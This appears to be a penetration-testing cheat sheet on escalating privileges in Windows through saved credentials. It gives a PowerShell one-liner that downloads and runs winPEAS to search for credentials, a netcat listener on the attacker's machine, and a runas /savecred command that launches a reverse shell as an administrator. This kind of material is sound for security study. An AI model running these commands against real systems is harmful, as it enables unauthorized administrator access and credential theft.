




Saved Creds
• Windows has a runas command which allows users to run commands with
the privileges of other users.
• This usually requires the knowledge of the other user’s password.
•
However, Windows also allows users to save their credentials to the system, and these saved credentials can be used
to bypass this requirement.
0. WinPEAS generally check for service misconfigurations:
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet cmd windowscreds";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";
 WARNING: how we can see the tool does not always work better verify manually(next
step)
1. Check saved credentials manually
 2. We can use the
saved credential to run any command as the admin user.
root@kali:/# nc -nvlp 53 # start a listener on the attacker
C:\> runas /savecred /user:<AdminUserTarget> <PathReverseShell>
 Bibliography:
•
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault